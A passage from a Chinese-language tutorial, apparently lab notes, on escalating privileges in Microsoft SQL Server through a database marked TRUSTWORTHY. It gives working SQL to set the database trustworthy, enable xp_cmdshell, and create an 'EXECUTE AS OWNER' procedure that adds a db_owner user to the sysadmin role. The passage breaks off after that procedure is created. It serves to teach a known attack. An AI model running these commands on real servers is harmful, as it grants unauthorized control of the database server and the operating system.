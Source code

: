 Myappuser01确实为db\_owner的权限

![6.png](./resource/Mssql受信用数据库提权/media/rId32.png)

查看myappusr01的属性也可以看到

#### 5.将\"MyTestdb01\"数据库设置为受信任。

    ALTER DATABASE MyTestdb01 SET TRUSTWORTHY ON

![7.png](./resource/Mssql受信用数据库提权/media/rId34.png)

#### 6.下面的查询将返回SQL Server实例中的所有数据库，并且应将\"MyTestdb01 \"和\"MSDB\"数据库标记为可信任。

    SELECT a.name,b.is_trustworthy_on
    FROM master..sysdatabases as a
    INNER JOIN sys.databases as b
    ON a.name=b.name;

![8.png](./resource/Mssql受信用数据库提权/media/rId36.png)

\"1\"就是受信用

#### 7.开启xp\_cmdshell

    EXEC sp_configure 'show advanced options',1
    RECONFIGURE
    GO

    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    GO

![9.png](./resource/Mssql受信用数据库提权/media/rId38.png)

0x02 提权
---------

1.使用MyAppUser01用户登录，新建查询，看看我们的权限，这里不要用之前的查询，因为那是sa的查询看看我们的是否为sysadmin

![10.png](./resource/Mssql受信用数据库提权/media/rId40.png)

2.新建一个sp\_elevate\_me查询

    USE MyTestdb01
    GO
    CREATE PROCEDURE sp_elevate_me
    WITH EXECUTE AS OWNER
    AS
    EXEC sp_addsrvrolemember 'MyAppUser01','sysadmin'
    GO

![11.png](./resource/Mssql受信用数据库提权/media/rId41.png)
